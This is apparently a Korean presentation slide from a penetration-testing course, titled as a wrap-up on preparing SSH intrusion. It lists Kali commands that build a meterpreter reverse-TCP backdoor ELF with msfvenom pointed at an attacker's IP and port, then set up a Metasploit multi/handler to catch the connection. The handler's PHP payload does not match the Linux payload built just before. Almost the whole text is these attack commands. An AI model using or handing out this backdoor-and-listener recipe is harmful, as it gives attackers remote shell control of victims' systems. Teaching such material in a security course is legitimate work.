

마무리

# ssh 침투 준비
console
@@@ Kali @@@
# msfvenom –p linux/x86/meterpreter_reverse_tcp lhost=[공격자ip] lport=[공격자포트] –f elf > backdoor.elf

# msfconsole

# use exploit/multi/handler
# set payload php/meterpreter_reverse_tcp
# set lhost [공격자 IP]
# set lport [공격자 포트]
# exploit
백도어 파일 제작
백도어 파일을 통해 접속